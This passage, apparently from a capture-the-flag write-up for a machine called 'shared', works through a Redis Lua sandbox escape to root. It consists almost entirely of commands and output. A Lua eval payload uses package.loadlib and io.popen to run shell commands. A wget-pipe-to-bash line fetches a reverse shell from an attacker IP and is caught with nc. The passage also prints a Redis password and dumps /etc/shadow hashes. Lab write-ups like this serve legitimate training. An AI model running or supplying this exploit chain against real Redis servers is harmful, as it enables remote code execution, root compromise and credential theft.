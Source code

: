 ```bash
  File "/usr/lib/python3/dist-packages/redis/connection.py", line 484, in read_response
    raise response
redis.exceptions.AuthenticationError: Authentication required.
```

Im not sure how to solve the code to include authentication, instead we can exploit it manually as there are two lines of code that actually does everything:
```python
line 17: lua= 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("'+cmd+'", "r"); local res = f:read("*a"); f:close(); return res'
line 19: script = r.eval(lua,0)
```

```bash
➜  shared redis-cli -h 127.0.0.1 --pass F2WHqJUz2WEz=Gqq
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
"uid=0(root) gid=0(root) groups=0(root)\n"

127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("wget -qO- http://10.10.14.4/rev.sh | bash", "r"); local res = f:read("*a"); f:close(); return res' 0

➜  shared nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.172] 39640
bash: cannot set terminal process group (23806): Inappropriate ioctl for device
bash: no job control in this shell

root@shared:/var/lib/redis# cat /root/root.txt
4d6594a804436a9950d537695c81fecc

root@shared:/var/lib/redis# cat /etc/shadow
root:$y$j9T$q/qYCzzDEBdZXpRxCa6gL/$XhNZBD56JUTsCniDDjj6UmwRnBc3A40AcbtqNzVEpJ4:19186:0:99999:7:::
daemon:*:19071:0:99999:7:::
bin:*:19071:0:99999:7:::
sys:*:19071:0:99999:7:::
sync:*:19071:0:99999:7:::
games:*:19071:0:99999:7:::
man:*:19071:0:99999:7:::
lp:*:19071:0:99999:7:::
mail:*:19071:0:99999:7:::
news:*:19071:0:99999:7:::
uucp:*:19071:0:99999:7:::
proxy:*:19071:0:99999:7:::
www-data:*:19071:0:99999:7:::
backup:*:19071:0:99999:7:::
list:*:19071:0:99999:7:::
irc:*:19071:0:99999:7:::
gnats:*:19071:0:99999:7:::
nobody:*:19071:0:99999:7:::
_apt:*:19071:0:99999:7:::
systemd-timesync:*:19071:0:99999:7:::
systemd-network:*:19071:0:99999:7:::
systemd-resolve:*:19071:0:99999:7:::
messagebus:*:19071:0:99999:7:::
sshd:*:19071:0:99999:7:::
james_mason:$y$j9T$zJMiBXFlQaVLqD8B7hPR3.$ceN5vvW/KTMQ.YeNjqT8UVo6TsKm/Dl8P1uefK6v5A1:19071:0:99999:7:::
systemd-coredump:!*:19071::::::
mysql:!:19071:0:99999:7:::
```
